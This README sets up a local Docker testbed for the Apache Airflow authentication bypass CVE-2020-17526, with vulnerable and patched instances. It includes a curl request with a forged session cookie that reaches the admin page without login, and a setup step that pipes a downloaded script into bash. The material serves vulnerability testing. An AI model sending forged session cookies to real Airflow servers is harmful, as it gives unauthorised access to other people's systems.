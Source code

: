 # requirements setup
spin up an `Ubuntu 22.04` fresh instance and log in as root.
```bash
apt update
apt install dos2unix
wget -q -O - "https://get.docker.com/" | dos2unix | bash
# clone the repo
# cd security-testbeds/apache/airflow/CVE-2020-17526
```
# setup Vulnerable instance
## Initialize the database
```bash
docker compose -f docker-compose-vulnerable.yml run airflow-init
```
## Start service
```bash
docker compose -f docker-compose-vulnerable.yml up -d
```
## test the exploit
```bash
curl 'http://127.0.0.1:8080/admin/' \
  -H 'Cookie: JSESSIONID=43EB3A020DF8B832F01E6F843B91B7B7; argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhcmdvY2QiLCJzdWIiOiJhZG1pbjpsb2dpbiIsImV4cCI6MTcxMTMyOTA1NSwibmJmIjoxNzExMjQyNjU1LCJpYXQiOjE3MTEyNDI2NTUsImp0aSI6IjE2MjlkMmZmLWRmYzktNDA0ZC05ZTNkLTE1Nzc4ZTYwZGNkNiJ9.-nK5IcmUexvjiUFgafTvlgPn1UzunrJn1-0BEOZVflY; session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.ZgdmZA.GDwzAupY1c9AXYDbLRvjSiZCVw0'
```
in a successfull exploitation, you should not be redirected to login page. on the other hand, you should receive the list of DAGs.
# setup secure instance
## Initialize the database
```bash
docker compose -f docker-compose-secure.yml run airflow-init
```
## Start service
```bash
docker compose -f docker-compose-secure.yml up -d
```

Ref:
https://github.com/vulhub/vulhub/tree/master/airflow/CVE-2020-17526
